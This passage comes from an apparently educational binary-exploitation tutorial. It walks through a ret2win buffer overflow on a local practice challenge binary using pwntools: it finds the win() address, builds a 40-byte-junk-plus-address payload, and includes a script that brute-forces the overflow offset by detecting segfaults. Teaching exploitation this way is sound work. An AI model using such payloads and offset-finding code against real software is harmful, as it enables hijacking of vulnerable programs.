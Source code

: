 ```python
e = ELF(fname)
r = process(fname)
print("Address of win:       0x{}".format(hex(e.sym.win)))
print("p64() address of win: {}".format(p64(e.sym.win))) 
```

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge1/challenge/challenge1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './challenge1': pid 11566
Address of win:       0x0x4008e7
p64() address of win: b'\xe7\x08@\x00\x00\x00\x00\x00'
```

The only difference with our theoritical result is the "@" symbol. We had "\x40" instead of that. This happens because the "@" in hex is 0x40. So, the output string is converted to this. From the `man` page of `ascii`:

```console
<SNIP>
Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
────────────────────────────────────────────────────────────────────────
000   0     00    NUL '\0' (null character)   100   64    40    @
<SNIP>
```

As we saw, we found the address of a function with 5 different ways. From now on, we are just going to use the `pwntools` method as it is dynamic and easy to use.

Our final payload, now that we have the address of `win()`, should look like this:

```python
payload = "A"*40 + p64(e.sym.win)
```

This translates to 40 bytes of junk to fill the buffer and overwrite the `SFP`, and 8 bytes of `win` to overwrite the `return address`.

I have created a function that automatically finds the buffer overflow offset, so that the script is more dynamic.

```python
def find_boffset(max_num):
  # Avoid spamming
  context.log_level = "error"
  print(colored("\n[*] Searching for Overflow Offset..", "blue"))
  for i in range(1, max_num): 
    # Open connection
    r = process(fname)
    r.sendlineafter(prompt, "A"*i)
    
    # Recv everything
    r.recvall(timeout=0.2)
    
    # If the exit code == -1 (SegFault)
    if r.poll() == -11:
      print(colored("\n[+] Buffer Overflow Offset found at: {}".format(i-1), "green"))
      r.close()
      return i-1
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()
```
